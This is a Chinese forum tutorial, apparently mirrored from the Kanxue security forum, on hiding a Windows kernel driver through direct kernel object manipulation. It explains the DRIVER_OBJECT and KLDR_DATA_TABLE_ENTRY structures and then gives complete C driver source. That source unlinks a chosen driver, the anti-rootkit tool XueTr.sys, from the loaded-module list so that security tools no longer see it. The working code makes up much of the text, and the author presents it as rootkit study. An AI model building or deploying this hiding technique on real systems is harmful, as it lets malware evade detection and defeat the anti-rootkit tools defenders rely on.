




# DKOM 隐藏驱动

> 原文：[`www.pediy.com/kssd/pediy12/135439.html`](https://www.pediy.com/kssd/pediy12/135439.html)

最近在学习 Rootkit, 看雪 Rootkit 专题中没有驱动隐藏的例子 http://bbs.pediy.com/showthread.php?t=56817  
于是乎, 我自己来实现了一把, 特此献给看雪.  
  
当服务控制管理器(SCM)加载一个驱动的时候, 就会生成一个 DRIVER\_OBJECT 结构的对象.  
nt!\_DRIVER\_OBJECT  
  +0x000 Type             : Int2B  
  +0x002 Size             : Int2B  
  +0x004 DeviceObject     : Ptr32\_DEVICE\_OBJECT  
  +0x008 Flags            : Uint4B  
  +0x00cDriverStart      : Ptr32 Void  
  +0x010 DriverSize       : Uint4B  
  +0x014 DriverSection    : Ptr32Void  
  +0x018 DriverExtension  : Ptr32\_DRIVER\_EXTENSION  
  +0x01cDriverName       : \_UNICODE\_STRING  
  +0x024 HardwareDatabase : Ptr32 \_UNICODE\_STRING  
  +0x028 FastIoDispatch   : Ptr32\_FAST\_IO\_DISPATCH  
  +0x02cDriverInit       : Ptr32     long   
  +0x030 DriverStartIo    :Ptr32     void   
  +0x034 DriverUnload     :Ptr32     void   
  +0x038 MajorFunction    : \[28\]Ptr32     long   
   
其中的 DriverSection 中保存着一个指向 KLDR\_DATA\_TABLE\_ENTRY 结构体的指针.  
这个结构体被用来保存驱动模块的一些信息.  
在 WRK 中的定义如下:  
typedef struct \_KLDR\_DATA\_TABLE\_ENTRY {  
   LIST\_ENTRY InLoadOrderLinks;  
   PVOID ExceptionTable;  
   ULONG ExceptionTableSize;  
   PVOID GpValue;  
   DWORD UnKnow;  
   PVOIDDllBase;  
   PVOID EntryPoint;  
   ULONG SizeOfImage;  
   UNICODE\_STRING FullDllName;  
   UNICODE\_STRING BaseDllName;  
   ULONG Flags;  
   USHORT LoadCount;  
   USHORT \_\_Unused5;  
   PVOID SectionPointer;  
   ULONG CheckSum;  
   PVOID LoadedImports;  
   PVOID PatchInformation;  
} KLDR\_DATA\_TABLE\_ENTRY,\*PKLDR\_DATA\_TABLE\_ENTRY;  
  
这个结构体中的第一个成员 InLoadOrderLinks 是一个 LIST\_ENTRY 的结构. 这使得每个驱动模块被串在了一个双向链表中.我们只要遍历这条双向链就能枚举出所有的驱动模块.  
其中域 DllBase 是驱动模块的加载基地址.  
FullDllName 是驱动模块的完整路径  
BaseDllName 是驱动模块的名称.  
遍历结果如下:  
  
  
因此, 如果我们要隐藏某个驱动, 只需将我们要隐藏的驱动名跟链表中的每个节点的驱动名比较. 一旦找到我们要隐藏的驱动, 则修改它的 InLoadOrderLinks 域的 Flink 和 Blink 的指针即可.  
图一: 修改前 Flink 和 Blink 指针的指向情况  
  
  
图二:修改后 Flink 和 Blink 指针的指向情况  
  
  
/\*  
 \* 【作者：莫灰灰(LSG)】  
 \* 【空间：http://hi.baidu.com/hu3167343】  
 \*/  
  
#include <ntddk.h>  
  
typedef unsigned long DWORD;  
  
typedef struct \_KLDR\_DATA\_TABLE\_ENTRY {  
    LIST\_ENTRY InLoadOrderLinks;  
    PVOID ExceptionTable;  
    ULONG ExceptionTableSize;  
    PVOID GpValue;  
    DWORD UnKnow;  
    PVOID DllBase;  
    PVOID EntryPoint;  
    ULONG SizeOfImage;  
    UNICODE\_STRING FullDllName;  
    UNICODE\_STRING BaseDllName;  
    ULONG Flags;  
    USHORT LoadCount;  
    USHORT \_\_Unused5;  
    PVOID SectionPointer;  
    ULONG CheckSum;  
    PVOID LoadedImports;  
    PVOID PatchInformation;  
} KLDR\_DATA\_TABLE\_ENTRY, \*PKLDR\_DATA\_TABLE\_ENTRY;  
  
PDRIVER\_OBJECT pDriverObject = NULL;  
  
VOID   
HideDriver()  
{  
    PKLDR\_DATA\_TABLE\_ENTRY entry =(PKLDR\_DATA\_TABLE\_ENTRY)pDriverObject->DriverSection;  
    PKLDR\_DATA\_TABLE\_ENTRY firstentry;  
    UNICODE\_STRING uniDriverName;  
      
    firstentry = entry;  
  
    // 初始化要隐藏驱动的驱动名  
    RtlInitUnicodeString(&uniDriverName, L"XueTr.sys");  
      
    while((PKLDR\_DATA\_TABLE\_ENTRY)entry->InLoadOrderLinks.Flink != firstentry)  
    {  
        if (entry->FullDllName.Buffer != 0)  
        {      
            if (RtlCompareUnicodeString(&uniDriverName, &(entry->BaseDllName), FALSE) == 0)  
            {  
                KdPrint(("隐藏驱动 %ws 成功!\\n", entry->BaseDllName.Buffer));      
                // 修改 Flink 和 Blink 指针, 以跳过我们要隐藏的驱动  
                \*((DWORD\*)entry->InLoadOrderLinks.Blink) = (DWORD)entry->InLoadOrderLinks.Flink;  
                entry->InLoadOrderLinks.Flink->Blink = entry->InLoadOrderLinks.Blink;  
                  
                /\*   
                    使被隐藏驱动 LIST\_ENTRY 结构体的 Flink, Blink 域指向自己  
                    因为此节点本来在链表中, 那么它邻接的节点驱动被卸载时,   
                    系统会把此节点的 Flink, Blink 域指向它相邻节点的下一个节点.  
                    但是, 它此时已经脱离链表了, 如果现在它原本相邻的节点驱动被  
                    卸载了, 那么此节点的 Flink, Blink 域将有可能指向无用的地址, 而  
                    造成随机性的 BSoD.  
                \*/  
                entry->InLoadOrderLinks.Flink = (LIST\_ENTRY\*)&(entry->InLoadOrderLinks.Flink);  
                entry->InLoadOrderLinks.Blink = (LIST\_ENTRY\*)&(entry->InLoadOrderLinks.Flink);  
  
                break;  
            }  
        }  
        // 链表往前走  
        entry = (PKLDR\_DATA\_TABLE\_ENTRY)entry->InLoadOrderLinks.Flink;  
    }  
}  
  
NTSTATUS   
UnloadDriver(  
             IN PDRIVER\_OBJECT DriverObject  
             )  
{  
    return STATUS\_SUCCESS;  
}  
  
NTSTATUS   
DriverEntry(  
            IN PDRIVER\_OBJECT DriverObject,   
            IN PUNICODE\_STRING  RegistryPath  
            )  
{  
    DriverObject->DriverUnload = UnloadDriver;  
    pDriverObject = DriverObject;  
    HideDriver();  
    return STATUS\_SUCCESS;  
}  
  
  
摘了 XueTr 的驱动之后, 我们用 ARK 工具来看一下(XueTr 和 PT 都是最新版).  
